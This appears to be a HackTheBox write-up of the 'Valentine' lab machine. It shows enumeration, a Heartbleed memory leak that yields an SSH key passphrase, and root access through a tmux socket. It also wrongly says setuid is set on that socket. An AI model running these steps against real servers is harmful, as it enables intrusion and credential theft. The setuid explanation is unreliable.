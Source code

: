 ```yaml
---
layout: post
title: HackTheBox - Valentine Writeup
tags: [hackthebox]
---
```


I thought this was a fun quick box. I remember when Heartbleed was all the craze, but I had never actually exploited it before Valentine. The box maker did a good job setting up extracting sensitive information out out memory via the vulnerability and giving us a nice simulation of how damaging the exploit could be.  


## Enumeration


```
root@kali:~/htb/valentine# nmap -sV 10.10.10.79

Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-23 15:03 EST
Nmap scan report for 10.10.10.79
Host is up (0.072s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.85 seconds
```
Since HTTPS is open let's run `sslscan`

```
root@kali:~/htb/valentine# sslscan 10.10.10.79
Version: 1.11.11-static
OpenSSL 1.0.2-chacha (1.0.2g-dev)

Connected to 10.10.10.79

Testing SSL server 10.10.10.79 on port 443 using SNI name 10.10.10.79

  TLS Fallback SCSV:
Server does not support TLS Fallback SCSV

  TLS renegotiation:
Secure session renegotiation supported

  TLS Compression:
Compression disabled

  Heartbleed:
TLS 1.2 vulnerable to heartbleed
TLS 1.1 vulnerable to heartbleed
TLS 1.0 vulnerable to heartbleed
~~~
~~~
```

The site is vulnerable to heartbleed (also hinted by the default graphic on the webserver landing page). We'll leverage this in a bit. 

While that was running `gobuster` was also running.

```
root@kali:~/htb/valentine# gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.79/ -t 20

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.79/
[+] Threads      : 20
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/index (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/decode (Status: 200)
/omg (Status: 200)

```

We see we have a few hits. Let's check out `/dev`.

![dev](/img/valentine-dev.png)

![notes](/img/valentine-notes.png)

![key](/img/valentine-key.png)

The key here is in hexadecimal, so let's try to decode it.

```
root@kali:~/htb/valentine# cat hype_key | xxd -r -p
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----

```

We see we have a private key, however we can see at the top of the key we have two headers: `Proc-Type` and `DEK-Info` which means we're going to need a passphrase for this key.

## Exploitation

Since we know the site is vulnerable to HeartBleed. Let's see what information we can grab from the server's memory. We can do this via a python script from [here](https://gist.github.com/eelsivart/10174134)

The python script allows us to connect multiple times with the `-n` option and dump the contents of memory over and over so we have a better chance of catching something. 

```
root@kali:~/htb/valentine# python heartbleed.py 10.10.10.79 -n 20

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 20 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 20 of 20
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#q.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==9.Z..Jo......)...G.Bq.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............

```

We see something hitting `decode.php`, which looks like base64. You can decode either via the `decode.php` page or just with the `base64 -d` command.

![decode](/img/valentine-decode.png)

`heartbleedbelievethehype` is most likely the passphrase on our sshkey. Since the key is named `hype_key` we can also assume that our username is `hype`.

```
root@kali:~/htb/valentine# ssh -i key hype@10.10.10.79
Enter passphrase for key 'key': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 23 12:04:56 2018 from 10.10.14.5
hype@Valentine:~$

```

## Privilege Escalation

If we check out the bash history for hype we see something interesting.

```
hype@Valentine:~$ cat .bash_history 

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit

```

We can see hype was attaching to a `tmux` socket.

```
hype@Valentine:/.devs$ ls -al
total 8
drwxr-xr-x  2 root hype 4096 Feb 23 13:19 .
drwxr-xr-x 26 root root 4096 Feb  6 11:56 ..
srw-rw----  1 root hype    0 Feb 23 13:19 dev_sess
```

We can see that the setuid bit is set on `dev_sess` and is owned by root.

Let's attach to the socket.
```
hype@Valentine:/.devs$ tmux -S dev_sess 

root@Valentine:/.devs# 
```

And done!